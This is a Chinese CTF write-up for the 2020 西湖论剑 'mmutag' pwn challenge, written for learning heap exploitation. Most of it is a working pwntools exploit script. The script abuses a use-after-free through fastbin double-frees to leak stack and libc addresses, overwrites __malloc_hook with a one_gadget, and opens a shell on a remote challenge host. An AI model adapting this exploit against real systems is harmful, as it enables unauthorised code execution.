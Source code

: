 ```yaml
---
layout: post
title: 西湖论剑2020
description: pwn-mmutag
categories: CTF/PWN


---
```




<!-- more -->

# 前言

这道题非常简单,第一种方法是fastbin_attack返回到栈中，然后泄漏canary和libc，然后覆盖返回地址为One_Gadget

我自己脑子抽风用了第二种方法，也是提升自己布置堆风水的能力

# 逻辑分析

1.这道题一开始给了我们一个gift:栈上的地址，分配堆的大小都是0x68,有个UAF的漏洞，但是只能布置10个堆，同时可以修改栈上的内容，并输出栈上的内容

![](/images/character8/mmutag1)

# 思路

首先这道题无论分配和释放都只能用到fastbin,所以只能用fastbin_attack,同时给了我们栈上的地址,且能输出栈上的内容,那毫无疑问是用fastbin_attack分配到栈中泄漏地址和ROP了,但同时我们可以注意到我们分配的栈上的地址是0x7f开头的,我们可以控制bss段heap的分配位置，如果我们能构成p64(0x7f)，也是能分配到bss上进行操作的,所以我运用了堆的思想又分配到了bss段中，这样可以多次使用fastbin_attack了，然后fastbin_attack分配到malloc_hook-0x23将malloc_hook修改为one_gadget然后getsehll

# 代码

```python
from PwnContext import *
try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')
if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h'] # uncomment this if you use tmux
    context.log_level = 'debug'
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))
    leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))
    debugg = 1
    logg = 0
    ctx.binary = './mmutag'
    ctx.remote_libc = './libc.so.6'
    ctx.debug_remote_libc = False # True for debugging remote libc, false for local.
    ctx.symbols = {'heap_pool':0x6020c0}
    if debugg:
    	rs()
    else:
		ctx.remote = ('183.129.189.62', 58604)
		rs(method = 'remote')
    if logg:
	    context.log_level = 'debug'
    libc = ctx.libc # ELF object of the corresponding libc.
    def Choice(num):
    	sla('choise:',num)
    def Add(idx,content=" "):
    	Choice(1)
    	sla('id:',idx)
    	sa('content',content)
    	ru('OK')
    def Del(idx,):
    	Choice(2)
    	sla('id',idx)
    	ru('OK')
    def Set_stack(content):
    	Choice(3)
    	s(content)
    	ru('Your')
    context.arch = "amd64"
    payload = p64(0)+p64(0x71)+p64(0)+p64(0)
    sla('please input you name:',payload)
    ru("this is your tag: 0x")
    stack_addr = r(12)
    stack_addr = int(stack_addr,16)
    success("stack_addr:0x%x",stack_addr)
    sleep(0.1)
    sla('choice',2)
    Add(3)
    Add(4)
    Del(3)
    Del(4)
    Del(3)
    payload = p64(0)+p64(0x71)+p64(0)+p64(0)
    Set_stack(payload)
    Add(5,p64(stack_addr-0x40))
    Add(6)
    Add(7,p64(0))
    Add(1,'a'*0x40+'b'*0x8)
    Set_stack('a'*0x20)
    ru('b'*0x8)
    libc_base = uu64(r(6))-0x20840
    success('libc:0x%x',libc_base)
    malloc_hook = libc_base + 0x3c4aed
    one_gadget = libc_base + 0xf0364
    Del(3)
    Del(4)
    Del(3)
    payload = p64(0x6020c5)
    Add(8,payload)
    Add(9)
    Add(10)
    Add(2,'\x00'+p64(0)*6)
    Del(10)
    Del(9)
    Del(10)
    Add(3,p64(malloc_hook))
    Add(4)
    Add(5)
    Add(6,'\x00'*3+p64(one_gadget)*8)
    success("one_gadget:0x%x",one_gadget)
    Set_stack('\x00'*0x20)
    success('one_gadget:0x%x',one_gadget)
    Choice(1)
    sla('id:',8)
    irt()
```

如果想看第一种方法的可以参考：https://bbs.pediy.com/thread-262526.htm
